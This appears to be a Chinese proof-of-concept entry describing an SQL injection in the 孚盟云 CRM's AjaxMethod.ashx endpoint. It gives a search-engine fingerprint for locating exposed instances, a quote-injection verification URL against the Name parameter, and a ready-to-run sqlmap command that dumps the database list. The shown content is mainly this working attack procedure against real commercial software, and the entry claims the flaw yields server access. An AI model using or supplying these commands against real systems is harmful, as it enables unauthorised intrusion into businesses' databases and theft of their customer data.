 # 孚盟云 AjaxMethod.ashx SQL注入漏洞

## 漏洞描述

孚盟云 AjaxMethod.ashx文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器权限

## 漏洞影响

<a-checkbox checked>孚盟云</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="孚盟云 "</a-checkbox></br>

## 漏洞复现

登录页面



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131644740.png)



验证POC

```plain
http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y%27
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131644786.png)



使用Sqlmap

```plain
sqlmap -u "http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y" -p Name --batch --random-agent --dbms mssql --dbs
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131645297.png)